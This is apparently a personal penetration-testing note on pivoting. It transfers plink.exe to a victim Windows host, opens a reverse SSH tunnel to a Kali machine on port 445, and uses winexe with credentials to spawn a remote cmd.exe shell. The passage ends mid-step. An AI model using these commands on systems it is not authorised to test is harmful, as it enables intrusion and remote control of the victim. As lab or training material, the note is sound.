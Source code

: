```yaml
---
category: Uncategorized
tags: []
---
```

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

![[Pasted image 20220203142521.png]]

> ALSO, if not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```command prompt - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U $USER%$PASSWORD //127.0.0.1 "cmd.exe"
```

Hit enter a few times:
